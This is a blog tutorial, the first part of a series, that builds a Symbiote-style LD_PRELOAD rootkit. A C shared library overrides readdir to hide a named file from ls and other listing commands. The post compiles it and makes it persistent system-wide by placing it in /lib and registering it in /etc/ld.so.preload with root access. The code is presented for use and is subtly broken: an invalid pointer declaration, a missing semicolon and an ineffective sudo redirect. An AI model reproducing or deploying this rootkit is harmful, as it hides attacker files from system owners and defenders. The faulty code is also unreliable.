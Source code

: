 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)"
date: 2022-10-02T21:45:03+03:00
draft: false
---
```


# Overview

Recently I heard about a new malware called [Symbiote](https://blogs.blackberry.com/en/2022/06/symbiote-a-new-nearly-impossible-to-detect-linux-threat), which the researches are calling the "Nearly-Impossible-to-Detect Linux Threat". I was very intrigued by how that malware is being implemented and how it works internally to remain undetected, so naturally I've started to research it. 


I highly advice you to read through these articles first before we begin with the actual post:

 - [Hijack Execution Flow: Dynamic Linker Hijacking](https://attack.mitre.org/techniques/T1574/006/)
 - [What Is the LD_PRELOAD?](https://www.baeldung.com/linux/ld_preload-trick-what-is)
 - [What is a Shared Library?](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)

# Implementation 

I decided to implement a very simple alternative of this malware just as a proof of concept since it was really interesting me. My idea is to create a file that will be hidden in the system.

First, if you already read the articles that I've linked, it is apparent that we have to implement a shared library, that will override some symbols defined in the Linux Kernel.

What do we need first and how to hide a file from lets say a command like `ls`? With a little bit of investigating of how the `ls` works internally through the [source code](https://github.com/coreutils/coreutils/blob/master/src/ls.c) and the [linux manual page](https://man7.org/linux/man-pages/man1/ls.1.html)
We can see that internally we have a function that is called `print_dir`. I've truncated the comments of the original source code.

 ```c
 ...
static void
print_dir (char const *name, char const *realname, bool command_line_arg)
...
 ```


If we continue further down the function we can see the loop that actually iterates over the files

 ```c
...
  while (true)
    {
      errno = 0;
      next = readdir (dirp); // Here we can see that the loop iterates over readdir as long
      // as the pointer that readdir returns isn't null and the errno != 0
      if (next)
        {
          if (! file_ignored (next->d_name)) // we can see here that it the filename is
          // taken from the next variable, lets look through the source code of `readdir`
            {
      ...
```
Let's confirm that by invoking `nm` this will show us the dynamic symbols that are being loaded from shared libs.

```console
$ nm -D /usr/bin/ls | grep "readdir"
                 U readdir@GLIBC_2.2.5
```

Now I concluded that I need to search into the source code of `readdir` which is located [here](https://github.com/torvalds/linux/blob/master/fs/readdir.c) and the [linux manual page](https://man7.org/linux/man-pages/man3/readdir.3.html). The description more or less describes exactly what we concluded from the source code of `ls.c`. Lets see where we set that `d_name` variable.

```c
#include <dirent.h>

struct dirent *readdir(DIR *dirp); // Signature of the dirent
```

```c
struct dirent {
    ino_t          d_ino;       /* Inode number */
    off_t          d_off;       /* Not an offset; see below */
    unsigned short d_reclen;    /* Length of this record */
    unsigned char  d_type;      /* Type of file; not supported
                                    by all filesystem types */
    char           d_name[256]; /* Null-terminated filename */
};
```

> ⚠️ This reverse engineering/looking up the code might be a little bit tricky because of the different implementations of the `dirent` structure, if you look through some other source codes you may look at some slightly different structures. In this case the number of chars in the array is 256 but that might change to some other values. And you can always count that `d_name` will exists since this field must be implemented on all POSIX systems.

Alright, let's start implementing our own function `readdir` that we will wrap the original one with. 

```c
/* libhidemyfile.c */
#define _GNU_SOURCE
#include <dirent.h> // Including the Directory Entry structure
// The dynamic linking header file so we can use the dlsym
// which will give us the address for the readdir symbol
#include <dlfcn.h>
#include <string.h> // So we can use the strstr

struct dirent *readdir(DIR *dirp) {
    struct *(handle)(DIR *);
    // https://man7.org/linux/man-pages/man3/dlsym.3.html
    // Search for RTLD_NEXT, basically it allow us to wrap
    // the original function
    handle = dlsym(RTLD_NEXT, "readdir")
    struct dirent *dp;

    // Iterating over the return values of our original `readdir`
    while((dp = handle(dirp))) {
        // if our `needle`(our file `syl.lys`) is found in the `haystack`(`dp->d_name`)
        // break the loop and go to the next entry, essentially skipping our file.
        if(strstr(dp->d_name, "syl.lys") == 0)
            break;
    }
    return dp;
}
```

This is what our final version of wrapper for `readdir` would look like. Now let's try to compile it.

```console
$ gcc libhidemyfile.c -fPIC -shared -o libhidemyfile.so -ldl
```

Flags: 
- [fPIC](https://stackoverflow.com/questions/5311515/gcc-fpic-option)
- `-shared` creates a shared object
- [-D_GNU_SOURCE flag / _GNU_SOURCE](https://stackoverflow.com/questions/8836707/explanation-of-d-gnu-source-why-to-use-it-and-when) - TLDR: We need it for `RTLD_NEXT`
- [-ldl](https://ubuntuforums.org/archive/index.php/t-1054717.html)


Now that we have shared object (*.so) file lets see how to use it in action.

# How to overwrite the exported symbols? `LD_PRELOAD`

- [What is LD_PRELOAD?](https://man7.org/linux/man-pages/man8/ld.so.8.html)

I advice you to read that first to get a better understanding of how it works.

The next thing that we are going to do is to test our shared library and see if it works. Lets run `ls` with our `libhidemyfile.so` loaded before anything else.

```console
$ ls
libhidemyfile.so  syl.lys
$ LD_PRELOAD=./libhidemyfile.so ls
libhidemyfile.so
```

As you can see we successfully implement a shared library that hides our file from `ls`, and not only that command, every command that uses `readdir` won't be able to list our file as long as we load our shared library. So in that case we must think of a persistent way of how to load it without typing `LD_PRELOAD` in front of every command.

## /etc/ld.so.preload

If you read carefully the man pages for `LD_PRELOAD` you should know that you won't be able to override functions in the standard search directories without properly setting your set-user-ID permissions. 

Instead we are going to use the `/etc/ld.so.preload` which does not suffer from that restrictions. This suffers from requiring root privileges but c'mon.. if you are here you will get those!

We first need to move our shared library file in some root directory, preferably /lib/ since..it is a library.

```console
$ sudo mv ./libhidemyfile.so /lib/libhidemyfile.so
```

Then we just need to place our library dir in `ld.so.preload` file.

```console
$ sudo echo "libhidemyfile.so" > /etc/ld.so.preload
```

And if everything is good, executing `ls` or any of its aliases will hide our file from the output.

# End

If you reached here, thank you so much for the read. In the next part I will try to "completely" hide it from the system because now if we `cat` it despite not "reading" it in the directory would print us the contents of the file, but that will be the subject of the next post.
